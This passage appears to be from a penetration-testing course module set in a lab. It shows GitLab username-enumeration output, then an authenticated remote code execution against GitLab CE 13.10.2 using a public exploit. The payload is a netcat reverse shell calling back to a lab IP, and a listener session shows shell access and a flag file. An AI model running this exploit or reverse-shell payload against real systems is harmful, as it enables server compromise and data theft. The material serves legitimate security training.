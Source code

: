 ```c
LOOP
200
[+] The username root exists!
LOOP
302
LOOP
302
LOOP
200
[+] The username bob exists!
LOOP
302
```

---

## Authenticated Remote Code Execution

Remote code execution vulnerabilities are typically considered the "cream of the crop" as access to the underlying server will likely grant us access to all data that resides on it (though we may need to escalate privileges first) and can serve as a foothold into the network for us to launch further attacks against other systems and potentially result in full network compromise. GitLab Community Edition version 13.10.2 and lower suffered from an authenticated remote code execution [vulnerability](https://hackerone.com/reports/1154542) due to an issue with ExifTool handling metadata in uploaded image files. This issue was fixed by GitLab rather quickly, but some companies are still likely using a vulnerable version. We can use this [exploit](https://www.exploit-db.com/exploits/49951) to achieve RCE.

As this is authenticated remote code execution, we first need a valid username and password. In some instances, this would only work if we could obtain valid credentials through OSINT or a credential guessing attack. However, if we encounter a vulnerable version of GitLab that allows for self-registration, we can quickly sign up for an account and pull off the attack.



```c
c4ndy@htb[/htb]$ python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '

[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
[+] RCE Triggered !!
```

And we get a shell almost instantly.

```c
c4ndy@htb[/htb]$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.88] 60054

git@app04:~/gitlab-workhorse$ id

id
uid=996(git) gid=997(git) groups=997(git)

git@app04:~/gitlab-workhorse$ ls

ls
VERSION
config.toml
flag_gitlab.txt
sockets
```